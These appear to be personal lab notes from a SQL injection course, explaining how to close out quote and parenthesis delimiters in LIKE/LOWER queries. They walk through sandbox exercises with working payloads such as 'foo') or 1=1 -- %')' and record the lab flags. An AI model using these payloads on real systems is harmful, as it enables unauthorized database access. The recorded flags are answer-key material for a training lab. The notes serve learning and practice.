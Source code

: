We could rewrite our previous query to use the LIKE operator, as shown below.

Example query using the LIKE operator in a string comparison
```sql
SELECT * FROM menu WHERE LOWER(name) LIKE LOWER('%input_here%')
```

If we can inject into this type of statement, we will need to "close out" the delimiters in the correct order. We can ignore the percent sign since it is a wildcard, but we would still need to "close out" the single quote and parenthesis in our payload before adding new functionality.

In fact, our previous payload in Listing 7 containing a comment marker should also work for the query in Listing 9.

Example payload injected into a query with wildcards
```sql
SELECT * FROM menu WHERE LOWER(name) LIKE LOWER('%foo') or id=11-- %')
```

The single quote and right parenthesis in our payload closes out the _LOWER_ function call. We do not have to include another wildcard character in our payload since they are not string delimiters. After closing out the _LOWER_ function call, our payload includes an OR clause and ends with commenting out the rest of the SQL query.

It is impossible to predict every way a SQL statement could be written, which means it's essential that we understand the concept of "closing out" strings and functions at the point of injection if we want to craft a working SQL injection payload.

Browse to `http://sql-sandbox/discovery/functions` for the following exercises.


##### Labs
1. `OS{6942EE0E8B2099BCDD9FB43395177CB5}`
![[Pasted image 20240819133730.png]]
Utilizing `'test` parameter to see where injection point is
![[Pasted image 20240819132032.png]]
this identifies that the query being utilized is below and the injection point is between the `''`
```sql
SELECT id, name, description, price FROM menu WHERE lower(name) = lower('')
```
First tested this query from the course content - utilized `%` to close out the delimeters in the query
```sql
foo') or 1=1 -- %')
```
All of these work - in mysql the `--` must have a space before them. essentially make everything `1=1` to spit out all content 
```sql
foo') or id=11 or 1=1 -- %')
foo') or 1=1 -- %')
foo') or 1=1 -- %
```
![[Pasted image 20240819133633.png]]
2. `OS{01ACF1894453697DDA76B61C19C9314D}`
![[Pasted image 20240819143218.png]]
Utilizing `'test` parameter to see where injection point is
![[Pasted image 20240819142603.png]]
this identifies that the query being utilized is below and the injection point is between the `''`
```sql
SELECT id, name, description, price FROM menu WHERE lower(name) = lower('')
```
First tested this query from the course content - utilized `%` to close out the delimeters in the query
```sql
foo') or 1=1 -- %')
```